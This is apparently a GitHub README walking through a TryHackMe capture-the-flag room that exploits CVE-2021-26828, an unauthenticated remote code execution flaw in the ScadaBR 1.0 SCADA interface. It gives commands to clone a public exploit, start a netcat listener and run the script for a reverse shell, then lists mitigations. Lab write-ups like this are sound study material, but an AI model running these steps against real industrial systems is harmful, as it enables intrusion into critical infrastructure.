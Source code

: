 # CVE-2021-26828 – ScadaBR 1.0 Remote Code Execution (TryHackMe – Industrial Intrusion: Web Brr v1)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes only.  
The information and code provided here can be used in **controlled environments**, such as private lab machines or platforms like TryHackMe.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is not responsible for any misuse or damages caused.

---

## 🔍 About the Vulnerability

An unauthenticated Remote Code Execution vulnerability exists in **ScadaBR 1.0**, which is based on the **Mango M2M** framework.  
This vulnerability (CVE-2021-26828) allows attackers to inject arbitrary code through the SQL script execution mechanism.

In TryHackMe's *Industrial Intrusion* room (Task 10 – Web Brr v1), a forgotten HMI node was found running a vulnerable ScadaBR interface that could be exploited using this CVE.

- **CVE ID:** CVE-2021-26828  
- **Exploit-DB:** Not listed (hosted on GitHub)  
- **Vulnerable Application:** ScadaBR 1.0 (Mango M2M fork)  
- **Impact:** Remote Code Execution  
- **Authentication Required:** ❌ No (depending on deployment)  
- **Network Access Required:** ✅ Yes  

---

## 📂 Exploit Overview

- **Exploit Type:** Script Injection → Reverse Shell  
- **Exploit Title:** ScadaBR 1.0 – Remote Code Execution  
- **Source:** [hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- **Language:** Python  
- **Authentication Required:** ❌ No  

---

## ⚙️ Exploit Usage

> 🐍 Exploit script: `exploit.py` from the GitHub repository

### 🔧 Modify and Run

1. Clone the repo:
   ```bash
   git clone https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE
   cd CVE-2021-26828_ScadaBR_RCE
   ```

2. Edit the script to match your listener port and target IP if needed.

3. Start your Netcat listener:
   ```bash
   nc -nlvp 4444
   ```

4. Run the exploit:
   ```bash
   python3 exploit.py --rhost <target-ip> --lhost <your-ip> --lport 4444
   ```

> ✅ A reverse shell should be returned to your listener on successful execution.

---

## 📸 Demonstration

1. **Accessing the Vulnerable SCADA Interface**  
   ![SCADA Interface](./img/interface.png)

2. **Running the Exploit Script**  
   ![Exploit Execution](./img/exploit.png)

3. **Reverse Shell Received**  
   ![Shell](./img/shell.png)

> 💡 *Images are optional and can be hosted via GitHub issues or embedded as needed.*

---

## 🏁 Flag Captured

After gaining shell access in the TryHackMe room, the flag was retrieved using:

```bash
cat root.txt
```

### 🎉 Flag:
```
THM{rce_archieved_through_script_injection}
```

---

## 🔒 Mitigation

- Upgrade to a secure or maintained version of ScadaBR or Mango  
- Disable SQL script execution features if not in use  
- Enforce network segmentation for SCADA/HMI systems  
- Monitor for unusual outbound traffic from SCADA zones  
- Restrict public exposure of SCADA interfaces and admin panels  

---

## 📚 References

- [https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- [TryHackMe – Industrial Intrusion](https://tryhackme.com/room/industrialintrusion)

---

## ✍️ Blog Walkthrough

Check out the detailed explanation and lab demonstration in the Medium blog:  
👉 **[Read the Medium blog](https://medium.com/@sakshi.infosec)**

---

## 👩‍💻 Author

**CyberQuestor-infosec**  
🔗 [GitHub](https://github.com/CyberQuestor-infosec) | ✍️ [Medium](https://medium.com/cyberquestor/tryhackme-industrial-intrusion-task-10-web-brr-v1-cve-2021-26828-rce-850df114a357)
